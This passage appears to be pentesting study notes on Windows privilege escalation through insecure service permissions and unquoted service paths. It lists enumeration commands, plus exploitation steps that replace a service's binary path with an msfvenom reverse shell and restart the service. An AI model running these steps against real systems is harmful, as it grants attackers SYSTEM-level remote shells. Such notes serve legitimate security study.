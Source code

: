 - Status information service (`STATUS`):
	- `sc query <service name>`
- Edit service configuration:
	- `sc config <service name> <option>= <value>`
- Start/stop service:
	- `sc.exe start/stop <service name>`
	- `net start/stop <service name>`

### InsecureServicePermissions

Vulnerable service identikit:
1. service for which you have one of the following privileges: `SERVICE_ALL_ACCESS` o `SERVICE_CHANGE_CONFIG`
2. service that starts automatically or for which you have start and stop privileges (`SERVICE_START` and `SERVICE_STOP`)
3. service runned by service account with elevated privileges, for example `LocalSystem`

Vulnerable service enumeration:
- `winpeas.exe servicesinfo` - ideal
- `accesschk.exe /accepteula -uwcqv <username> *` or `accesschk.exe /accepteula -uwcqv "Authenticated Users" *` - alternatives

After identifying the service, we check the necessary information of the points 1, 2 and 3:
- `accesschk.exe /accepteula -cquvw <username> <service name>`
- `sc qc <service name>`
- **Requirements**:
	- `SERVICE_ ALL_ACCESS` or `SERVICE_CHANGE_CONFIG` - point 1
	- `SERVICE_START_NAME` equal to `LocalSystem` (approximately) - point 3
	- reboot service:
		- if `START_TYPE` equal to `3 DEMAND_START`, `SERVICE_START` and `SERVICE_STOP` are required
		- if `START_TYPE` equal to `2 AUTO_START`, `SeShutdownPrivilege` is required

Exploitation:
- create an executable reverse shell with *msfvenom*
- editing configuration service:
	- `sc config <service name> binpath= "\"<path_to_reverse>\""`
- reboot vulnerable service: 
	- `sc query <service name>` - checking service status 
	- (if `DEMAND_START`) `net stop <service name>` and `net start <service name>` (alternative: `sc`)
	- (if `AUTO_START` and `SeShutdownPrivilege` privilege) `shutdown /r /t 0`

### UnquotedServicePath

Vulnerable service identikit:
1. service where the executable path contains spaces ***and*** is not enclosed in inverted commas
2. service that starts automatically or for which you have start and stop privileges (`SERVICE_START` and `SERVICE_STOP`)
3. write permission in one of directories in which, first, presence of the executable is checked
4. service runned by service account with elevated privileges, for example `LocalSystem`

Vulnerable service enumeration:
- `winpeas.exe servicesinfo`
- `Get-UnquotedService` (da `PowerUp`) - ideal solution because:
	- identifies the path where the user has write permissions
	- identifies the privileges with which the service is running (`LocalSystem`, etc.)
	- indicates if user can reboot the service
	- provides a Powershell function to generate a binary that exploits the vulnerability
- `wmic service get name,displayname,pathname,startmode |findstr /i /v "c:\windows\\" |findstr /i /v """` - from CMD
- `Get-WmiObject -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select Name,DisplayName,StartMode,PathName` - from Powershell
